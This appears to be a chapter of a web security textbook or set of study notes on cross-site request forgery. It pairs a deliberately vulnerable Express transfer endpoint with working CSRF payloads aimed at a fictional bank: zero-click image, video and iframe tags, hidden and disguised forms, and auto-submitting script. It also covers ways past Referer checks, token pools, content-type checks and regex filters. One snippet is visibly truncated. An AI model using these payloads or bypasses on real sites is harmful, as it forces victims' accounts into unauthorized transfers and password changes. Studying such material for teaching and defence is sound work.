



# Chapter 11: Cross-Site Request Forgery (CSRF)

Cross-Site Request Forgery (CSRF) exploits the trust relationship between a website and a browser to perform unauthorized operations using a victim's authenticated session.

## Core Concepts
- **Privilege Escalation**: Forces a privileged account to perform operations on the attacker's behalf.
- **Stealth**: Requests occur in the background, often without the user's knowledge.
- **Root Cause**: The browser automatically includes authentication cookies when making HTTP requests to a domain, regardless of where the request originated.

## CSRF vs. XSS
While both attacks occur on the client-side and exploit user sessions, their mechanics and goals are fundamentally different:
- **XSS (Cross-Site Scripting)**: Exploits the *user's trust in a website*. The attacker injects malicious scripts into the target application, which then executes in the victim's browser. This allows the attacker to read data, steal session tokens, and manipulate the DOM directly.
- **CSRF (Cross-Site Request Forgery)**: Exploits the *website's trust in a user's browser*. The attacker cannot execute scripts on the target site or read the server's responses. Instead, they trick the victim into sending a blind, state-changing request (like transferring funds or changing an email) to the target site, banking on the fact that the browser will automatically attach the victim's valid session cookies.

## CSRF via GET (Query Parameter Tampering)

**How it works**: An attacker crafts a URL containing state-changing parameters and tricks an authenticated user into sending an HTTP GET request. Since the user is authenticated, the browser attaches their session cookies, and the server executes the action.
**When to use**: Target APIs or endpoints that improperly use HTTP GET for state-changing operations (CRUD operations).

### Vulnerable Server-Side Example (ExpressJS)
```javascript
app.get('/transfer', function(req, res) {
  if (!session.isAuthenticated) { return res.sendStatus(401); }
  if (!req.query.to_user) { return res.sendStatus(400); }
  if (!req.query.amount) { return res.sendStatus(400); }
  
  transferFunds(session.currentUser, req.query.to_user, req.query.amount,
    (error) => {
      if (error) { return res.sendStatus(400); }
      return res.json({ status: 'complete' });
  });
});
```

### Distribution Strategies
- **Targeted**: Aimed at specific users highly likely to be authenticated with sufficient privileges or funds.
- **Bulk**: Distributed widely (e.g., via email, social media, or even malicious web-advertising campaigns) to hit as many victims as possible before the attack is detected.

### Basic Payload (Hyperlink)
```html
<a href="https://www.mega-bank.com/transfer?to_user=<hacker>&amount=10000">click me</a>
```



### Alternate GET Payloads (Zero-Click)
HTML tags that fetch resources via URL parameters can trigger GET requests automatically on page load.
**When to use**: To execute the CSRF attack as soon as the victim views the malicious page, requiring no direct interaction (like clicking a link).

- **Image Tag**:
  ```html
  &amount=10000" width="0" height="0" border="0">
  ```
  

- **Video/Audio Tags**:
  ```html
  <video width="0" height="0">
    <source src="https://www.mega-bank.com/transfer?to_user=<hacker>&amount=10000">
  </video>
  ```
- **Iframe**:
  ```html
  <iframe src="https://www.mega-bank.com/transfer?to_user=<hacker>&amount=10000"></iframe>
  ```
  *Note: Iframe-based CSRF attacks typically only work against HTTP GET endpoints.*

## CSRF Against POST Endpoints

**How it works**: An attacker creates a web form with hidden input fields containing the malicious payload and hosts it on an attacker-controlled site. When the victim submits the form, a POST request is sent to the vulnerable application.
**When to use**: Targeting APIs that properly require POST, PUT, or DELETE for state changes but lack anti-CSRF tokens.

### Basic Payload (Hidden Form)
```html
<form action="https://www.mega-bank.com/transfer" method="POST">
  <input type="hidden" name="to_user" value="hacker">
  <input type="hidden" name="amount" value="10000">
  <input type="submit" value="Submit">
</form>
```



### Masquerading Payloads
Attackers can mix legitimate-looking form fields with hidden payload fields to disguise the attack as a normal login or signup form on a different site:
```html
<form action="https://www.mega-bank.com/transfer" method="POST">
  <!-- Malicious payload -->
  <input type="hidden" name="to_user" value="hacker">
  <input type="hidden" name="amount" value="10000">
  <!-- Legitimate-looking fields to fool the user -->
  <input type="text" name="username" value="username">
  <input type="password" name="password" value="password">
  <input type="submit" value="Login">
</form>
```

**Architectural Context - Network Segmentation Bypass**: This technique can force a user on an internal network to send requests to an internal server that is normally inaccessible from the public internet.

## Bypassing CSRF Defenses

### Header Validation Bypass
- **How it works**: Servers checking `Referer` or `Origin` headers might fail open if the header is completely absent (reading as `null` or `undefined`).
- **Implementation**: Add `rel="noreferrer"` to `<a>` or `<form>` tags to instruct the browser to omit the `Referer` header.
  ```html
  <a href="..." rel="noreferrer">click me</a>
  <!-- or -->
  <form action="..." method="POST" rel="noreferrer">
  ```

### Anti-CSRF Token Weaknesses
- **Token Pools**: Some legacy systems evaluate tokens within "pools" rather than tying them directly to a session. An attacker can generate a valid token from their own account (often retrievable via browser dev tools) and inject it into the CSRF payload against the victim. This can be tested manually using tools like `curl`:
  ```bash
  curl https://website.com/auth -H "anti-csrf-token": "12345abc"
  ```
- **Weak/Predictable Tokens**: Tokens derived from predictable values (e.g., timestamps, usernames). For example, a token like `1691434927` is a Unix epoch timestamp that can be calculated and forged.

### Content Type Bypasses
- **How it works**: If an API expects `application/json` but fails to enforce it, an attacker can send the payload as `application/x-www-form-urlencoded` or `multipart/form-data` using standard HTML forms to bypass JSON-specific validation middleware.
- **Implementation**: Alter the `enctype` of an HTML form.
  ```html
  <form action="/" method="post" enctype="multipart/form-data">
  ```
- **Rare Content Types for Bypasses**: In rare cases, the following alternate content types may successfully bypass validation if not strictly handled:
  - `application/x-7z-compressed`
  - `application/zip`
  - `application/xml`, `application/xhtml+xml`
  - `application/rtf`, `application/pdf`
  - `application/ld+json`, `application/gzip`
  - `text/csv`, `text/css`

### Regex Filter Bypasses
- **How it works**: Evading poorly written server-side regular expressions used to validate URLs or payloads.
- **Strategies**:
  - Injecting semicolons: `https://example.com;test=123` instead of `?test=123`
  - Manipulating slashes: `https://example.com\test`
  - Path traversal characters: `https://example.com/../test`

## Advanced Payloads

### AJAX Payloads
- **When to use**: If XSS is present or script execution is allowed, AJAX requests offer full control over headers and methods.
- **Implementation**:
  ```javascript
  const url = "https://example.com/change_password?password=123";
  const xhr = new XMLHttpRequest();
  xhr.open("GET", url);
  xhr.setRequestHeader("Content-Type", "text/plain");
  xhr.send();
  ```

### Zero Interaction Forms
- **When to use**: If script execution is possible, CSRF can be performed with no user interaction required via DOM API manipulation (typically obtained via XSS).
- **Implementation**: Emulating user interaction via DOM APIs to auto-submit forms.
  ```html
  <form id="pw_form" method="GET" action="https://example.com/change_password">
    <input id="pw" type="hidden" name="password" value="" />
    <input type="submit" value="submit"/>
  </form>
  <script>
    // obtain references to the form
    const el = document.querySelector("#pw_form");
    const pw = document.querySelector("#pw");
    
    // change the password field
    pw.value = "new_password_123";
    
    // submit the form
    el.submit();
  </script>
  ```
